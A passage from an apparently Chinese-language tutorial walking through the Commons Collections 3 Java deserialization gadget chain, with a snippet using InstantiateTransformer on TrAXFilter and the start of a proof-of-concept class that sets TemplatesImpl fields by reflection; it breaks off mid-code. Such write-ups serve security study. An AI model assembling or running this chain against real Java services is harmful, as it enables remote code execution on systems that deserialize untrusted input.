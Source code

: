 ```java
InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
instantiateTransformer.transform(TrAXFilter.class);
```

然后这条链子就算结束了，看下结果

![img](img/1667980411960-ca94db3b-ab3f-4ad8-989c-769f72f612c5.png)

最后POC&Test.java

```java
package com.common.cc;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;


public class CC3 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Class cc3 = templates.getClass();
        Field nameField = cc3.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "sfabc");
```